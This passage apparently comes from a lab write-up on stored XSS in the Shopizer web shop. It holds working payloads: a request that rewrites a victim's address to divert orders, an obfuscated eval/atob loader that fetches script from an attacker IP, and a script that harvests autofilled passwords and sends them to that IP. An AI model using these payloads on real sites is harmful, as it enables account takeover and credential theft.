 We can create a JavaScript payload that sends the above request using the target user's cookie, and therefore, changing their address to an address we control so we can redirect their orders.

{% code title="xssShopizerAddress.js" overflow="wrap" %}
```javascript
fetch('http://xss/shop/customer/updateAddress.html',{
    // setting the HTTP method
    method: 'POST',
    // the payload will be hosted on the same domain as the application
    // which allows the browser to send the JSESSIONID cookie since the
    // request won't be cross-origin
    mode: 'same-origin',
    credentials: 'same-origin',
    headers: {
      'Content-Type':'application/x-www-form-urlencoded'
    }, 
    body:'customerId=&billingAddress=false&firstName=hax&lastName=hax&company=&address=hax&city=hax&country=AL&stateProvince=z&postalCode=z&phone=z&submitAddress=Change address'
  })
```
{% endcode %}

{% code overflow="wrap" %}
```javascript
// the XSS payload
'+btoa(eval(atob("alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDUuMjE0L3hzc1Nob3BpemVyQWRkcmVzcy5qcycp")))+'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/web_xss_shopizer_12.png" alt=""><figcaption><p>Figure 23: Testing our XSS attack.</p></figcaption></figure>

We can also craft an XSS payload to extract the user's stored credentials.

{% code title="xssSavedPasswords.js" %}
```javascript
let body = document.getElementsByTagName("body")[0]

var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
//u.style.opacity = "0";

var p = document.createElement("input");
p.type = "password";
p.style.position = "fixed";
//p.style.opacity = "0";

body.append(u)
body.append(p)

setTimeout(function(){
    fetch("http://192.168.45.214/k?u=" + u.value + "&p=" + p.value)
    }, 5000);
```